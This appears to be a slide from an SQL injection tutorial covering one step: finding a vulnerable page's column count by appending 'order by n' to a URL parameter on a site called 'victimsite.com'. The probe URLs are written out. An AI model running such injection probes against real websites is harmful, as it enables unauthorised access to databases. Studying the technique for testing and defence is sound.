

Step 3: Finding Number of columns:

Now we have found the website is vulnerable.
Next step is to find the number of columns in the table.
For that replace the single quotes(‘) with “order by n” statement
Change the n from 1,2,3,4,,5,6,…n. Until you get the error like “unknown column “.
For eg:
http://www.victimsite.com/index.php?id=2 order by 1
http://www.victimsite.com/index.php?id=2 order by 2
http://www.victimsite.com/index.php?id=2 order by 3
http://www.victimsite.com/index.php?id=2 order by 4
	…..
	http://www.victimsite.com/index.php?id=2 order by 8(error)
so now x=8 , The number of column is x-1 i.e, 7.